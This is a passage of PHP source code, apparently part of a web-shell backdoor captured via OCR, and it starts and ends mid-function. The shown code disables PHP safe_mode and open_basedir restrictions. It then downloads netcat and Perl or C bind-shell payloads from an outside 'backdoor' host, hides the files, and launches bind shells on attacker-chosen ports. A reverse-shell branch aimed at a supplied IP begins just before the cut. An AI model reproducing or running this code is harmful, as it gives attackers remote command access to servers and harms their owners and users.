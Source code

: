 socket_set_timeout($sock,$timeout);
@fputs($sock,$packet);
socket_set_timeout($sock,$timeout);
$res=fgets($sock);
fclose($sock);
return $res;
}

$safemode=(@ini_get('safe_mode') or strtolower(@ini_get('safe_mode')) == 'on')?'ON':'OFF';
if($safemode=="ON"){@ini_restore("safe_mode");@ini_restore("open_basedir");}
$disablefunctions = @ini_get('disable_functions');
if (!function_exists("str_repeat")){
function str_repeat($str,$c){
$r="";
for($i=0; $i &lt; $cu; $i++)$r.=$str;
return $r;
}
}

function brshelL(){
global $errorbox, $windows,$et,$hcwd;
$_REQUEST['C']=(isset($_REQUEST['C']))?$_REQUEST['C']:0;
$addr='http://netjackal.by.ru/backdoor';
$error="$errorbox Can not make backdoor file, go to writeable folder.$et";
$n=namE();
if(!$windows)$n=".$n";
$d=whereistmP();
$name=$d.DIRECTORY_SEPARATOR.$n;
$perl=(!$windows && shelL('which perl'))?$perl=shelL('which perl'):'perl';
$c=($_REQUEST['C'])?1:0;
if (!empty($_REQUEST['port']) && ($_REQUEST['port']&lt;=65535) && ($_REQUEST['port']&gt;=1) ){
$port=(int)$_REQUEST['port'];
if($windows){
if($c){
$name.=".exe";
$bd=downloadiT("$addr/nc.exe",$name);
shelL("attrib +H $name");
if(!$bd)echo $error;else shelL("$name -L -p $port -e cmd.exe");
}else{
$name = $name.".pl";
$bd=downloadiT("$addr/winbind.pl",$name);
shelL("attrib +H $name");
if(!$bd)echo $error;else shelL("perl.exe $name $port");
}
}
else{
if($c){
$bd=downloadiT("$addr/bind.c",$name);
if (!$bd) echo $error;else shelL("cd $d;gcc -o $n $n.c;chmod +x ./$n;./$n $port &");
}else{
$bd=downloadiT("$addr/bind.pl",$name);
if (!$bd)echo $error; else shelL("cd $d;$perl $n $port &");
echo "&lt;font color=blue&gt;Backdoor is waiting for you on $port.&lt;br&gt;&lt;/font&gt;";
}
}
}
elseif(!empty($_REQUEST['rport']) && ($_REQUEST['rport']&lt;=65535) && ($_REQUEST['rport']&gt;=1) && !empty($_REQUEST['ip'])){
$ip=$_REQUEST['ip'];
$port=(int)$_REQUEST['rport'];
if($windows){
if($c){
$name.='.exe';
$bd=downloadiT("$addr/nc.exe",$name);